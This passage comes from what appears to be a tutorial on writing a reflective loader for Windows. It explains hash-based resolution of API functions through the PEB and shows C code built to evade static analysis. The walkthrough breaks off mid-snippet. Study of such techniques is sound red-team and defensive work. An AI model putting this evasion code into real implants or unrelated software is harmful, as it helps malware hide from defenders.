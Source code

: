 <figure>
  <img src="../assets/udrl-vs/windbg2.png" alt="WinDbg output of the NT headers" width="100%"/>
  <figcaption><i>Fig.5 - WinDbg output of the NT headers of ntdll.dll .</i></figcaption>
</figure>

## Resolving Functions

The following snippet is focused on determining the necessary functions that the loader requires to function.

We create some hashes during compile time to later find those modules & functions without directly calling them by their string name. This makes it harder for static analysis tools to find out what we're trying to do. 

```c
//STEP 1: find the functions our loader needs...
#ifdef _WIN64
    _PPEB pebAddress = (_PPEB)__readgsqword(0x60);
#elif _WIN32
    _PPEB pebAddress = (_PPEB)__readfsdword(0x30);
#endif
    // calculate hashes
    constexpr DWORD KERNEL32DLL_HASH = CompileTimeHash("kernel32.dll");
    constexpr DWORD NTDLLDLL_HASH = CompileTimeHash("ntdll.dll");

    constexpr DWORD LOADLIBRARYA_HASH = CompileTimeHash("LoadLibraryA");
    constexpr DWORD GETPROCADDRESS_HASH = CompileTimeHash("GetProcAddress");
    constexpr DWORD VIRTUALALLOC_HASH = CompileTimeHash("VirtualAlloc");
    constexpr DWORD NTFLUSHINSTRUCTIONCACHE_HASH = CompileTimeHash("NtFlushInstructionCache");
```

We initialize a struct `winApi` which will be used to store function pointers.

The loader attempts to resolve key functions using the `GetProcAddressByHash()` function, this function will search through the PEB using the provided hash retrieving a pointer to the address.

```c
    WINDOWSAPIS winApi = { 0 };
    // resolve key loader functions
    winApi.LoadLibraryA = (LOADLIBRARYA)GetProcAddressByHash(pebAddress, KERNEL32DLL_HASH, LOADLIBRARYA_HASH);
    if (winApi.LoadLibraryA == NULL) {
        PRINT("[-] Failed to find address of key loader function. Exiting..\n");
        return NULL;
    }
    winApi.GetProcAddress = (GETPROCADDRESS)GetProcAddressByHash(pebAddress, KERNEL32DLL_HASH, GETPROCADDRESS_HASH);
    if (winApi.GetProcAddress == NULL) {
        PRINT("[-] Failed to find address of key loader function. Exiting..\n");
        return NULL;
    }
    winApi.VirtualAlloc = (VIRTUALALLOC)GetProcAddressByHash(pebAddress, KERNEL32DLL_HASH, VIRTUALALLOC_HASH);
    if (winApi.VirtualAlloc == NULL) {
        PRINT("[-] Failed to find address of key loader function. Exiting..\n");
        return NULL;
    }
    winApi.NtFlushInstructionCache = (NTFLUSHINSTRUCTIONCACHE)GetProcAddressByHash(pebAddress, NTDLLDLL_HASH, NTFLUSHINSTRUCTIONCACHE_HASH);
    if (winApi.NtFlushInstructionCache == NULL) {
```